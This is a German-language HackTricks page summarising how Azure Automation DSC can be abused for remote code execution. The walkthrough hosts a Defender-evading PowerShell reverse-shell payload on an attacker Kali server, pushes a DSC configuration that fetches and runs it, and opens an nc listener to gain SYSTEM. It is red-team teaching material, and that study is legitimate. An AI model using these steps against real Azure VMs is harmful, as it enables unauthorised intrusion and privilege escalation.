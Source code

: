 # Az - State Configuration RCE

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

**Überprüfen Sie den vollständigen Beitrag unter:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Zusammenfassung der Vorbereitung und Schritte zur Remote-Server (C2) Infrastruktur

#### Übersicht

Der Prozess umfasst die Einrichtung einer Remote-Server-Infrastruktur, um eine modifizierte Nishang `Invoke-PowerShellTcp.ps1` Payload, genannt `RevPS.ps1`, zu hosten, die darauf ausgelegt ist, Windows Defender zu umgehen. Die Payload wird von einer Kali Linux-Maschine mit der IP `40.84.7.74` über einen einfachen Python HTTP-Server bereitgestellt. Der Vorgang wird in mehreren Schritten ausgeführt:

#### Schritt 1 — Dateien erstellen

* **Benötigte Dateien:** Zwei PowerShell-Skripte sind erforderlich:
1. `reverse_shell_config.ps1`: Eine Desired State Configuration (DSC) Datei, die die Payload abruft und ausführt. Sie ist von [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1) erhältlich.
2. `push_reverse_shell_config.ps1`: Ein Skript, um die Konfiguration an die VM zu veröffentlichen, verfügbar unter [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Anpassung:** Variablen und Parameter in diesen Dateien müssen an die spezifische Umgebung des Benutzers angepasst werden, einschließlich Ressourcennamen, Dateipfade und Server-/Payload-Identifikatoren.

#### Schritt 2 — Konfigurationsdatei zippen

* Die `reverse_shell_config.ps1` wird in eine `.zip`-Datei komprimiert, um sie für die Übertragung zum Azure Storage Account vorzubereiten.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Schritt 3 — Speicher-Kontext festlegen & Hochladen

* Die gezippte Konfigurationsdatei wird in einen vordefinierten Azure Storage-Container, azure-pentest, hochgeladen, indem das Azure-Cmdlet Set-AzStorageBlobContent verwendet wird.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Schritt 4 — Kali-Box vorbereiten

* Der Kali-Server lädt die RevPS.ps1 Payload aus einem GitHub-Repository herunter.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Das Skript wird bearbeitet, um die Ziel-Windows-VM und den Port für die Reverse-Shell anzugeben.

#### Schritt 5 — Konfigurationsdatei veröffentlichen

* Die Konfigurationsdatei wird ausgeführt, was dazu führt, dass das Reverse-Shell-Skript an dem angegebenen Ort auf der Windows-VM bereitgestellt wird.

#### Schritt 6 — Payload hosten und Listener einrichten

* Ein Python SimpleHTTPServer wird gestartet, um die Payload zu hosten, zusammen mit einem Netcat-Listener, um eingehende Verbindungen zu erfassen.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Der geplante Task führt die Payload aus und erreicht SYSTEM-Ebene Privilegien.

#### Fazit

Die erfolgreiche Ausführung dieses Prozesses eröffnet zahlreiche Möglichkeiten für weitere Aktionen, wie z.B. Credential Dumping oder die Ausweitung des Angriffs auf mehrere VMs. Der Leitfaden ermutigt zu weiterem Lernen und Kreativität im Bereich Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

